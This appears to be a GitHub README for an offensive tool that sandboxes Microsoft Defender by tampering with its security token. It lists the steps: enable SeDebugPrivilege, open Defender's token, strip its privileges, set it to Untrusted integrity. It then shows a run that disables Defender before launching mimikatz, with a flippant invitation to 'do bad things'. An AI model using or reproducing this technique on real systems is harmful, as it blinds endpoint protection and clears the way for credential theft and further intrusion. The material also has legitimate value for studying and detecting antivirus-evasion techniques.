 # Sandbox Defender

Sandboxing Defender (and probably other AV/EDRs) using Security Token manipulation.

If you do use any of the code in these repositories **keep it legal!**

# Introduction

This code was written after reading [Sandboxing Antimalware Products for Fun and Profit](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/) by **Elastic Security Research**. I am a little bit late to the party it would seem, the article was made public on the 02/02/22 (3 days ago as of writing), and [Martin Ingesens TokenStomp](https://github.com/MartinIngesen/TokenStomp) was posted 04/02/22. MUST code faster!

Anyway, writing this code was fun.

The technique is very simple:

- Enable the `SeDubgPrivilege` in our process security token.
- Get a handle to Defender using `PROCESS_QUERY_LIMITED_INFORMATION`.
- Get a handle to the Defender token using `TOKEN_ALL_ACCESS`.
- Disable all privileges in the token using `SetPrivilege`
- Set the Defender token Integrity level to Untrusted.
- Do bad things... legally of course!

The main part of the code is [here](https://github.com/plackyhacker/SandboxDefender/blob/main/SandboxDefender/Program.cs)

# Example

Execution of the code is shown below (then executing mimikatz after defender is sandboxed):

```
.\SandboxDefender.exe
[+] Getting a token handle for this process.
[+] Token handle: 0x2EC
[+] Enabling SeDebugPrivilege.
[+] SeDebugPrivilege enabled.
[+] Defender PID: 5212
[+] Getting a process handle for Defender.
[+] Process handle: 0x2F0
[+] Getting a token handle for the Defender process.
[+] Token handle: 0x2F4
[+] Will disable Defender privileges.
[+] Will set Defender Integrity to Untrusted.
[+] Done... Have a nice day!

.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

# Nice Pictures

This is Defender before the sandboxing (in Process Hacker):

![pre](https://github.com/plackyhacker/SandboxDefender/blob/main/images/pre.png?raw=true)

This is Defender afetr the sandboxing (in Process Hacker):

![pre](https://github.com/plackyhacker/SandboxDefender/blob/main/images/post.png?raw=true)
